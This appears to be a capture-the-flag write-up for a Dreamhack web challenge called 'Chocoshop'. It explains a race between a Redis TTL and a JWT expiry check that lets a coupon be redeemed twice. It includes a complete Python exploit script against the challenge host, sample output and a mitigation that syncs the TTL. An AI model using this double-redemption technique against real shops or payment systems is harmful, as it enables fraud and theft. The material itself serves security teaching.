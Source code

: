 # 🏁 Chocoshop!

---

## 📄 Description

The provided web application allows users to claim a coupon and submit it to receive money. Once enough money is collected, the user can purchase the flag.

Each user can **claim a JWT-based coupon once**, and it is **supposed to be redeemable only once**.

However, due to a **race condition vulnerability**, the coupon can be **submitted twice**, leading to unauthorized money gain and flag retrieval.

---

## 🔍 Code Breakdown

### 🔸 Import Libraries

```python
import requests
import json
import time
```

- `requests`: for sending HTTP requests
- `json`: for parsing server responses
- `time`: to precisely time coupon expiration

---

### 🔸 Configuration

```python
url = "http://host3.dreamhack.games:17025/"
session_id = "65a96b047a0a4196953e4f0d7c5f14b9"  # Obtained via /session
```

---

### 🔸 Claim Coupon Function

```python
def claim_coupon(session):
    headers = {"Authorization": session}
    response = requests.get(url + "coupon/claim", headers=headers)
    return json.loads(response.text)["coupon"]
```

- Sends a GET request with Authorization header to claim a JWT coupon

---

### 🔸 Submit Coupon Twice

```python
def submit_coupon_twice(session, coupon):
    headers = {"Authorization": session, "coupon": coupon}
    r = requests.get(url + "coupon/submit", headers=headers)
    print("First submit:", r.text)

    print("Waiting for 45 seconds...")
    time.sleep(45)

    r = requests.get(url + "coupon/submit", headers=headers)
    print("Second submit:", r.text)
```

- First submission is valid
- Waits exactly **45 seconds**
- Redis key expires → server thinks the coupon is reusable
- Second submission is also accepted

---

### 🔸 Claim Flag

```python
def claim_flag(session):
    headers = {"Authorization": session}
    r = requests.get(url + "flag/claim", headers=headers)
    print("FLAG:", r.text)
```

- If balance ≥ 2000, returns the flag

---

## ⚙️ Vulnerability – Race Condition

```python
if coupon['expiration'] < int(time()):
    raise BadRequest('Coupon expired!')
```

- Coupon expiration is checked using `int(time())`, which is accurate to the second
- The Redis key for the coupon also expires at that exact second
- There is a **1-second race window** where:
  - Redis no longer stores the coupon as used
  - Coupon’s expiration is not yet considered expired

This allows **double submission** of a coupon.

---

## 💣 Exploit Flow

1. Get session token from `/session`
2. Claim a coupon from `/coupon/claim`
3. Submit coupon once via `/coupon/submit`
4. Wait **exactly 45 seconds**
5. Submit the same coupon again (Redis key has expired)
6. Redeem the flag via `/flag/claim`

---

## 🧪 Full Exploit Script

```python
import requests
import json
import time

url = "http://host3.dreamhack.games:17025/"
session_id = "65a96b047a0a4196953e4f0d7c5f14b9"

def claim_coupon(session):
    headers = {"Authorization": session}
    response = requests.get(url + "coupon/claim", headers=headers)
    return json.loads(response.text)["coupon"]

def submit_coupon_twice(session, coupon):
    headers = {"Authorization": session, "coupon": coupon}
    r = requests.get(url + "coupon/submit", headers=headers)
    print("First submit:", r.text)

    print("Waiting for 45 seconds...")
    time.sleep(45)

    r = requests.get(url + "coupon/submit", headers=headers)
    print("Second submit:", r.text)

def claim_flag(session):
    headers = {"Authorization": session}
    r = requests.get(url + "flag/claim", headers=headers)
    print("FLAG:", r.text)

# Exploit flow
coupon = claim_coupon(session_id)
submit_coupon_twice(session_id, coupon)
claim_flag(session_id)
```

---

## 🏁 Output Example

```text
First submit: {"status": "success"}
Waiting for 45 seconds...
Second submit: {"status": "success"}
FLAG: {"status": "success", "message": "DH{...}"}
```

---

## ✅ Conclusion

- The bug is a result of a **race condition** between:
  - Coupon expiration (checked via `int(time())`)
  - Redis key TTL expiration
- When both align on the same second, Redis key expires **before** `int(time())` considers the coupon expired
- This gap allows a **second submission of the same coupon**

---

## 🛡️ Mitigation

```python
# Expiration check
if coupon['expiration'] < int(time()):
    raise BadRequest('Coupon expired!')

# Redis TTL sync with JWT expiration
r.expire(used_coupon, timedelta(seconds=coupon['expiration'] - int(time())))
```

- Synchronize Redis key TTL with the JWT expiration to eliminate the time gap

---

## 🔑 Key Summary

| Item         | Description                                  |
|--------------|----------------------------------------------|
| Vulnerability| Coupon re-use via race condition             |
| Cause        | Time gap between Redis TTL and time check    |
| Attack       | Wait 45 seconds → re-submit coupon           |
| Fix          | Sync Redis TTL with JWT expiration exactly   |
